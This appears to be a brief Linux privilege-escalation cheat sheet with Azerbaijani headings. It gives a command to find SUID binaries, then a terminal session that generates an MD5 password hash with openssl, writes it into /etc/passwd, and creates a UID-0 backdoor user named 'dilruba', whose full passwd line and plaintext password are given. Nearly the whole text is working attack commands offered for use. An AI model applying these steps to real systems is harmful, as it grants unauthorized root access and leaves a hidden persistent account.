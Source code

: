 ## SHOWING SUID

# find / -perm -u=s -type f 2>/dev/null

## ROOTA QALXMAQ etc/passwd -e yaza biliriksə

user7@polobox:/$ openssl passwd -1
Password: 
Verifying - Password: 
$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
user7@polobox:/$ ^C
user7@polobox:/$ nano /etc/passwd
user7@polobox:/$ su dilruba


# dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash

# passwd----dil1123
